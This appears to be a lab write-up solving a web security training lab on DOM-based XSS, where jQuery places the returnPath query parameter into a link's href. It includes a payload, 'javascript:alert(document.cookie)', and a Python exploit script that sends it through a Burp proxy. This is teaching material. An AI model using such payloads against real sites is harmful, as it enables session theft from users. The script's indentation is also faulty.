 ```yaml
---
title: 'XSS Lab 5'
description: 'DOM-based XSS via jQuery $ selector and href attribute using location.search source'
---
```



## DOM XSS in jQuery anchor href attribute sink using location.search source

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability on the Submit Feedback page. The page uses the jQuery `$` selector function to locate an anchor element and sets its `href` attribute using data from `location.search`. By manipulating the `returnPath` query parameter, arbitrary JavaScript can be executed when the user clicks the "back" link. This illustrates how unsanitized input directly used in the DOM can lead to XSS.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `returnPath` query parameter is used by jQuery to set the `href` of the "back" link.
- Any unsanitized input is inserted into the DOM.
- By setting `returnPath=javascript:alert(document.cookie)`, we can trigger an alert containing cookies when clicking "back".
- This confirms a DOM-based XSS vulnerability using the jQuery anchor `href` sink.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/feedback?returnPath={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = 'javascript:alert(document.cookie)'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```